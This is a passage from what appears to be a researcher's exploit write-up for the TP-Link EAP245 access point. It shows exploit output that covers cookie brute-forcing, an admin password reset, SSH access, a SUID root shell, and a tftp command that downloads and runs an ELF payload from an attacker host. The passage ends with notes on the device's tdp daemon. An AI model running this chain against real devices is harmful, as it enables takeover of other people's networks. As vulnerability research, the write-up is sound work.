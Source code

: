 
It'll give output like:
```
$ python x.py 192.168.1.1 192.168.10.5 out.elf
INFO - Device: EAP245, Firmware: 5.0.3 Build 20210604 Rel. 51934
INFO - Spike Detected
INFO - Found range 26230074:26234958
INFO - Waiting 20 seconds to ensure a login
INFO - Starting cookie brute for range 26230074:26234958
INFO - valid cookie c0a80a0501903e3c (attempt 0:26230332)
INFO - Creds: admin:CEACDC2F5A0DC0D42FFB0372B9446CD6
INFO - Changing the user password to `badpassword`
INFO - Attempting to login via SSH
INFO - Got a shell, creating a SUID sh
INFO - Running the following as root: tftp -g -r out.elf -l /tmp/out.elf 192.168.10.5:9069 ; chmod +x /tmp/out.elf ; /tmp/out.elf &
INFO - Cleaning up
INFO - Resetting ssh status and user password back to the original
```

By the end, `out.elf` will be running, which in my tests was just something I produced with msfvenom.

## Misc Information

### tdp 

tdp is a TP-Link daemon that doesn't do very much on this specific device, basically just returns information like the IP, mac Address and various other things (including firmware version!)
It is far simpler than the binary that exists on home routers which have been targeted before[2][4].


Example output (IP, Mac Address and firmware version are blanked.):
```json
{
	"type": 1,
	"ip": "192.168.1.1",
	"mac": "FF-EE-DD-CC-BB-AA",
	"loginMode": 1,
	"manageMode": 0,
	"httpsPort": 443,
	"model": "EAP245",
	"name": "EAP245-FF-EE-DD-CC-BB-AA",
	"hardwareVersion": "3.0",
	"firmwareVersion": "5.0.x Build x Rel. x",
	"factoryStatus": false,
	"radioType": 17,
	"controllerHost": "",
	"version": 1
}
```

Here is a client if you are interested, part of which was included in the exploit for firmware detection:
```python3
import base64
import binascii
import json
import socket
import struct
import sys
from Crypto.PublicKey import RSA
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.Util.Padding import unpad

```